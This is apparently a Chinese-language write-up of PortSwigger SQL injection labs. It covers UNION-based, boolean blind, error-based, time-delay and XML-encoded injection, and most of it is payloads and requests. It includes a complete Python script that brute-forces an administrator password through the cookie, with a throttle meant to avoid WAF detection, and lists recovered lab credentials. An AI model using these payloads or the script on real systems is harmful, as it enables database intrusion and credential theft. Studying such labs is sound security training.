## 1、where子句中的sql注入漏洞允许检索隐藏数据

给的提示：



当选择一个商品类别，抓包显示：



他执行的语句是：select * from products where category = 'Pets' and released = 1

所以我们可以构造payload：

Pets'+or+1=1-- 

拼接完就是：

select * from products where category = 'Pets'+or+1=1-- and released = 1



这样就查出了没有发布的商品


## 2、允许绕过登录的 SQL 注入漏洞

登录框输入administrator‘--

单引号用来闭合 -- 用来注释后面的语句


## 3、SQL 注入 UNION 攻击，确定查询返回的列数

这一关规定是通过union来确定返回的列数，也就是确定products表有几列

因为union前后必须是一致的，意思是说：

`select username, password from user union select NULL, NULL` 语法是正确的

而 `select username, password from user union select NULL, NULL, NULL` 是不正确的

也就是说，union前面的语句搜的是两列，那么union后面的语句也要搜两列 

**为什么用NULL？** 

​	因为两个select语句对应列所返回的数据类型必须是相同或者是兼容的，`NULL` 可转换为每种常见数据类型，因此当列数正确时，它可以最大限度地提高有效载荷成功的机会。


所以抓一个包，尝试一下：

`GET /filter?category=Pets'+union+select+NULL,+NULL,+NULL-- HTTP/2`

正确，说明是3列


跳出本关的规则，除了使用UNION来判断列数，还可以用order by

`/filter?category=Pets'+order+by+4--` 报错

`/filter?category=Pets'+order+by+3--` 正确

说明是3列


该靶场提示：在oracle中，每个 `SELECT` 查询都必须使用 `FROM` 关键字并指定一个有效的表。Oracle 上有一个名为 `dual` 内置表可用于此目的。因此，Oracle 上的注入查询需要如下所示：

`' UNION SELECT NULL FROM DUAL--`


因为union前后的查询结果对应列的数据类型必须相同或兼容，因此可以利用这个来判断哪一列是字符串（有价值的数据一般以字符串格式存储）

例如：

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```


## 4、SQL injection UNION attack, retrieving data from other tables

题目中说了有一个user表，表中有username和password字段

首先加一个单引号，看看反应

```
GET /filter?category=Gifts' HTTP/2
```



加两个单引号：



判断是字符型注入

通过order by判断表的列数

```
GET /filter?category=Gifts'%20order%20by%203%20--+ HTTP/2
```

到3的时候页面出错，说明这个表有两列

判断该表的列数是因为union前后查询的列数必须保持一致，而且对应列的数据类型必须相同

判断回显位：

一开始用的是：

```
Gifts' union select 1,2--+
```

报错，用这种才行：

```
Gifts' union select 'awwwwww','bsssssssss'--+
```



```
Gifts' union select username, password from users--+
```


同administrator账号登陆之后就算过关了



## 5、SQL injection UNION attack, retrieving multiple values in a single column

字符型注入

表中有两列（用order by判断）

上面的这两个不再赘述

这一关有了变化：



还是之前说的：union前后查询的列数必须保持一致，而且对应列的数据类型必须相同。

如果你填：

```
Gifts' union select 2,1--+
```

或者：

```
Gifts' union select 'aaaaaaaaaaaaaaaa','bbbbbbbbbbbbbb'--+
```

都不行


进一步利用一下：

```
Gifts' union select 1,version()--+
```



从题目以及描述中看，这一关是让我们从同一列中批量提取数据，因为之前的关卡中都是每一列只能查询到一个数据

不同的数据库使用不同的语法来执行字符串连接，参考SQL注入速查表：

[SQL注入速查表](https://portswigger.net/web-security/sql-injection/cheat-sheet)



所以这样构造：

```
Gifts' union select 1, username || password from users--+
```



看不清，搞一个分隔符

```
Gifts' union select 1, username || '~' || password from users--+
```



## 6、SQL injection attack, querying the database type and version on MySQL and Microsoft

查数据库版本，根据数据库的不同 语法也不同

| Microsoft, MySQL | `SELECT @@version`        |
| ---------------- | ------------------------- |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

## 7、SQL injection attack, listing the database contents on non-Oracle databases

它给的知识：

多数数据库（除了Oracle）都有一个叫做information schema的东西，它提供有关数据库的信息。

我们可以查询 `information_schema.tables` 来列出数据库中的表：

```
SELECT * FROM information_schema.tables
```

返回如下：

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

此输出表明有三个表，分别称为 `Products` 、 `Users` 和 `Feedback` 。

然后可以查询 `information_schema.columns` 来列出各个表中的列

```
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

返回如下：

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```


例如，Mysql数据库中有一个information_schema数据库，里面有一个SCHEMATA表，存储了所有的数据库名



该数据库下的TABLES表中存储了哪个数据库对应哪些表



那就是说我们sql注入的时候不需要去猜数据库名表明列名，我们通过information_schema数据库很清晰地查有哪些数据库、有哪些表、字段


来到这一关

```
Pets' union select 'bbbbbbbbbbbbb','aaaaaaaaaaaaaaaaa'--+
```



在回显位判断一下数据库

```
Pets' union select version(),'aaaaaaaaaaaaaaaaa'--+
```



```
Pets' union select 'aaaaaaaaaaaaaaaaa',TABLE_NAME from information_schema.tables--+
```

搜出180条：



从中找到了一个叫pg_user的表

```
Pets' union select 'aaaaaaaaaaaaaaaaa',COLUMN_NAME from information_schema.columns where table_name = 'pg_user'--+
```

其中有usename和passwd的列

```
Pets' union select usename, passwd from pg_user--+
```

没找到administrator用户


## 8、Blind SQL injection with conditional responses

```
SELECT SUBSTRING('Hello World', 2, 4);
```

`2` 是起始位置，意味着从第二个字符开始提取（字符串的第一个字符的位置是1 不是0），`4` 表示要提取的字符数量，所以结果是`ello`

题中说：该应用程序使用跟踪 Cookie 进行分析，并执行包含已提交 Cookie 值的 SQL 查询。

例如Cookie的内容是：`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

应用程序使用 SQL 查询来确定这是否是已知用户：

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

本关的pyload：

```
i6xQwpnJkSS7hUrN' and substring((select password from users where username = 'administrator'),1,1)='s'--+
```

即更改请求包的Cookie字段：

```
Cookie: TrackingId=i6xQwpnJkSS7hUrN'%20and%20substring((select%20password%20from%20users%20where%20username%20=%20'administrator'),1,1)='s'--+;
```

如果正确，页面中会返回一个Welcome back，否则不返回Welcome back

写个脚本或者burpsuite爆破

```python
import requests
import string
import time

# URL 和基本信息
url = "https://0abc001d037474cb8057cb9f00f80046.web-security-academy.net/filter?category=Gifts"
session_cookie = "gK5IxdwjPjRvMn9DfmlpncffvkQFLfWN"
original_tracking_id = "3w1lnrR49rIGooyH"

# 字符集（可以根据目标系统调整）
charset = string.ascii_lowercase + string.ascii_uppercase + string.digits

# 响应判定依据：关键字 或 响应长度变化
success_indicator = "Welcome back"  # 可根据实际情况修改（比如页面是否显示某些内容）

def test_char(position, char):
    # 构造注入 payload
    payload = f"{original_tracking_id}' AND substring((select password from users where username='administrator'),{position},1)='{char}'--+"
    payload_encoded = requests.utils.quote(payload)

    # 设置 Cookie
    cookies = {
        "TrackingId": payload_encoded,
        "session": session_cookie
    }

    # 发送请求
    response = requests.get(url, cookies=cookies)

    # 判断是否为 True
    if success_indicator in response.text:
        return True
    return False

def extract_password(max_length=30):
    password = ""
    print("开始爆破管理员密码...")
    for position in range(1, max_length + 1):
        found = False
        for char in charset:
            print(f"[*] 尝试位置 {position} 字符：{char}", end="\r")
            if test_char(position, char):
                password += char
                print(f"[+] 找到第 {position} 位字符：{char}")
                found = True
                break
            time.sleep(0.1)  # 减缓请求频率，避免被WAF检测
        if not found:
            print(f"[!] 第 {position} 位未找到，可能已到末尾，当前密码为：{password}")
            break
    return password

# 执行
final_password = extract_password()
print(f"\n[*] 爆破结束，管理员密码是：{final_password}")

```

## 9、报错注入

例子

```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

如果条件为假：'a' = 'a' 不报错

如果条件为真：触发除0错误 报错

### 关卡1：

```
Cookie: TrackingId=OzouoA9wVPzw8Aip'||(select+'')||'--+
```

||是字符串连接符

这样做 拼接过程是`OzouoA9wVPzw8Aip + '' + ''` = `OzouoA9wVPzw8Aip ` 不会造成危害

结果响应是500 推测是oracle数据库

oracle不支持这种`select ''`不指定from的语句，其他常见的都是支持的


改成：

```
Cookie: TrackingId=OzouoA9wVPzw8Aip'||(select+''+from+dual)||'--+
```

`dual` 是 Oracle 数据库中的一个特殊单行表，常用于计算表达式。

响应是200，确定是oracle数据库


```sql
OzouoA9wVPzw8Aip'||(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'--+;
报错
```

```sql
OzouoA9wVPzw8Aip'||(SELECT+CASE+WHEN+(1=2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'--+;
不报错
```

可以通过这个语句来验证是否存在administrator用户

```sql
OzouoA9wVPzw8Aip'||(SELECT+CASE+WHEN+(1=2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+where+username='administrator')||'--+
状态200
```

在case then语句中*是非法的

密码长度，注意报错说明是对的，不报错才说明是错的

```sql
OzouoA9wVPzw8Aip'||(SELECT CASE WHEN LENGTH(password)>5 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

密码长度是20


burpsuite逐位爆破



结果：vbnaj0sxaeocdfe97cv4

### 关卡2

```
TrackingId=XW3erD3QG61vhT8T'+and+cast((select+1)+as+int)--+
```

报错：ERROR: argument of AND must be type boolean, not type integer

调整为：

```
Cookie: TrackingId=XW3erD3QG61vhT8T'+and+1=cast((select+1)+as+int)--+
```

不报错了

调整为：

```
Cookie: TrackingId=XW3erD3QG61vhT8T'+and+1=cast((select+username+from+users)+as+int)--+
```

报错信息：

```
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'XW3erD3QG61vhT8T' and 1=cast((select username from users) as'. Expected  char
```

由于输出字符限制，信息不全

删除 TrackingId Cookie 的原始值以释放一些额外的字符。重新发送请求。

```
Cookie: TrackingId='+and+1=cast((select+username+from+users)+as+int)--+
```

报错：

ERROR: more than one row returned by a subquery used as an expression

```
Cookie: TrackingId='+and+1=cast((select+username+from+users+limit+1)+as+int)--+
```

报错信息：ERROR: invalid input syntax for type integer: "administrator"

```
Cookie: TrackingId='+and+1=cast((select+password+from+users+where+username='administrator')+as+int)--+
```

报错：ERROR: syntax error at end of input   **为什么不行？**

答：`'administrator'` 里出现了引号，导致外层 SQL 报错了，需要对单引号进行url编码 %27

```
Cookie: TrackingId='+and+1=cast((select+password+from+users+limit+1)+as+int)--+
```

ERROR: invalid input syntax for type integer: "hkgrddp50z1iizy2rk9g"

## 10、Lab: Blind SQL injection with time delays and information retrieval（延时注入）

基于时间的盲注

这一关和布尔盲注不一样，SQL注入不会通过页面内容直接暴露出任何“真假”信息，至于实现方法，可能是使用 `try...catch`（或对应语言的异常捕获）捕捉 SQL 错误，使错误不抛出到页面

| 数据库类型     | 延迟函数          | 当前数据库名函数     |
| -------------- | ----------------- | -------------------- |
| **MySQL**      | `SLEEP(5)`        | `DATABASE()`         |
| **PostgreSQL** | `pg_sleep(5)`     | `current_database()` |
| **SQL Server** | `WAITFOR DELAY`   | `DB_NAME()`          |
| **Oracle**     | `dbms_lock.sleep` | `SYS_CONTEXT(...)`   |

怎么知道它网站用的是什么数据库？手动的话就是盲探

MySQL 探测

```
' AND IF(1=1, SLEEP(5), 0) --+
```

或者：

```
' OR SLEEP(5) --+
```

SQL Server 探测

```
'; IF 1=1 WAITFOR DELAY '0:0:5'-- 
```

或者：

```
'; WAITFOR DELAY '0:0:5'-- 
```

Oracle 探测（较少用，通常需要高权限）

```
'; BEGIN dbms_lock.sleep(5); END; -- 
```


```
Cookie: TrackingId=lDSW4FEA5hmSQ7nN'||(select+case+when+(1=1)+then+pg_sleep(7)+else+pg_sleep(0)+end)||';
```

有延时

```
Cookie: TrackingId=lDSW4FEA5hmSQ7nN'||(select+case+when+(username='administrator')+then+pg_sleep(5)+else+pg_sleep(0)+end+from+users)||'; 
```

有延时

```
Cookie: TrackingId=lDSW4FEA5hmSQ7nN'||(select+case+when+(length(password)=20)+then+pg_sleep(5)+else+pg_sleep(0)+end+from+users+where+username='administrator')||';
```

有延时 密码是20位


在burpsuite的setting中： 设置为3秒





## 11、带外 盲注

## 12、XML编码形式的SQL注入

/product/stock 这个接口存在sql注入

请求体中：



返回：370 units

换成7+1

返回：478 units


```xml
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			7 union selct null
		</productId>
		<storeId>
			2
		</storeId>
	</stockCheck>
```

返回："Attack detected"

选中`7 union selct null`，使用插件 “扩展程序”>“Hackvertor”>“编码”>“dec_entities/hex_entities”

这样可以绕过WAF


```xml

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		2
	</productId>
	<storeId>
		<@hex_entities>
			2 UNION SELECT username || '~' || password FROM users
		</@hex_entities>
	</storeId>
</stockCheck>
```

carlos~2i65tzk7pxbzvl22hhhx
287 units
administrator~0d1ww5gegtray8ifa2qc
wiener~az0xzy9rrkla5avaru1e

productId那里似乎不能进行联查

